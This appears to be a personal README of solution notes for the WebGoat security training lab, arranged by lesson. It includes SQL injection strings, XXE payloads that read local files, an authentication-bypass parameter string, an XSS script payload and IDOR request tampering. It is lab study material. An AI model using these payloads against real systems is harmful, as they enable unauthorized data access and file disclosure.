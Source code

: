 # WebGoat
## [General](./General/README.md)
## [Injection Flaws](./InjectionFlaws/README.md)
## [Authentication Flaws](./AuthenticationFlaws/README.md)
## [Cross-site Scripting](./Cross-SiteScripting_XSS/README.md)
## [Access Control Flaws](./AccessControlFlaws/README.md)
## [Insecure Communication](./InsecureCommunication/README.md)
## [Request Forgeries](./RequestForgeries/README.md)
## [Vulnerable Components](./VulnerableComponents/README.md)
---
## Introduction [x]
### WebGoat [x]
* Read
### WebWolf [x]
* Install Webwolf, send email, write code from mail.
* Reset password, go to Webwolf get code
## General [x]
### Http basics [x]
* write something
* intercept HTTP, get header and read the answer
### Http Proxies [x]
* Intercept package, modify it to suite the task, make sure to modify properly the POST
```
/WebGoat/HttpProxies/intercept-request?changeMe=Requests%20are%20tampered%20easily HTTP/1.1
```
---
## Injection Flaws [ ]
### SQL Injeciton [x]
```SQL
smith' or '1' = '1
```
```SQL
1 or true
```
### SQL Injection advanced [ ]
```SQL
asd' or true; select * from user_system_data; --
```
```SQL
work in progress
```
### SQL Injection mitigation
```SQL
1' or true order by (case when (hostname = 'webgoat-prd') hostname else status;
```
* Solution: 192.168.4.0
### XXE
#### 3
```XML
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///" >]>
<comment>
  <text>aa&xxe;</text>
</comment>
```
#### 4
* Specify content type to be xml
```XML
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///" >]>
<comment>
  <text>aa&xxe;</text>
</comment>
```
#### 7
```XML
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:////home/USER/.webgoat/XXE/secret.txt" >]>
<comment>
  <text>a&xxe;</text>
</comment>
```
---
## Authentication Flaws [x]
### Authentication Bypass [x]
```js
(secQuestion0=aORtrue)&(secQuestion1=aORtrue)&jsEnabled=1&verifyMethod=SEC_QUESTIONS&userId=12309746
```
### JWT tokens (Under development) [x]
* In development, therefore passed by default
---
## Coss-Site Scripting (XSS) [ ]
### Cross Site Scripting
#### 3
* YES
#### 7
* Credit card number field
```jss
<script>alert('my javascript here')</script>
```
#### 10
* 2 ways - start.mvc#test/
  * go to lesson java file and check if condition
  * go to GoatRoute.js and find the solution
#### 11
* url + <script>webgoat.customjs.phoneHome()
## Access Control Flaws [ ]
### Insecure Direct Object References
#### 2
* tom cat
#### 3
* Intercept http request
```json
{
  "role": 3,
  "color": "yellow",
  "size": "small",
  "name": "Tom Cat",
  "userId": "2342384"
}
```
* Missing fields are `role` and `userId`
#### 4
* Intercept HTTP, path to profile `WebGoat/IDOR/profile/2342384`
### Missing Function Level Access Control
#### 2
* Enough to access the console and analyse the html page and check for links or other important info that are just commented out. Like the Admin panel.
#### 3
*
## Insecure Communication
### Insecure Login
* Intercept the login and use the intercepted credential to sign-in
## Request Forgeries
### Cross-Site Request Forgeries
*
## Vulnerable Components - A9
### Vulnerable Components
* It is enough to delete the content ```<contact></contact>```
## Client side
* To solve all this tasks it is enough to search in the html the needed fields and modify them
### Client side filtering
### Bypass front-end restriction
### HTML tampering
## Challenges
### WebGoat Challenge
### Admin lost password
### Get it for free
### Photo comments
### Voting
### Without password
### Creating a new account
### Admin Password
### Without account
### Changing password
